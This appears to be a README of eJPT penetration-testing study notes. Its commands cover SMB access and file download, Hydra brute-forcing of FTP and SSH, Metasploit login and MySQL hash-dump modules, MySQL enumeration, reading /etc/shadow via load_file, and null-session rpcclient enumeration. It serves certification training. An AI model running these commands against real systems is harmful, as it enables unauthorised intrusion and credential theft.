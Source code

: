 # EJPT
##Notes and commands cheat sheet for the EJPT##


**SMBMap**

```smbmap -u "(username)" -p "(password)" -H "(IP address)```

Downloading file using SMB Map

```smbmap -u administrator -p smbserver_771 -H 10.4.244.255 --download "c$\flag.txt```

**Brute forcing FTP using Hydra
**
```hydra -L (Username list) -P (Password list) (IP Address) ftp```

**SSH - Getting SSH host key using Nmap
**
```nmap (IPaddress) -p 22 --script-args ssh_hostkey=full```
Save the host key for later

**Brute Forcing SSH with Hydra
**
```hydra -L (username) -P (password list) (IP address) ssh```

**Brute Forcing SSH login with Metasploit
**
```Use ssh/ssh_login```

**MYSQL**

Logging into Mysql on remote host

```mysql -h (IP address) -u root```

Using database

```show databases ---then type semicolon```

```use (database name);```

```select count(*) from authors;```

```select * from authors```

Finding Writable directories

Metasploit -- scanner/mysql/mysql_writable_dirs

Finding hashes

```use auxiliary/scanner/mysql/mysql_hashdump```

Getting the full etc/shadow file

```select load_file("/etc/shadow");```

**RPCClient
**
```rpcclient -U "" -N 192.168.0.0```
Useful commanands within
Enumdomusers
Lookupnames -- example lookupnames admin
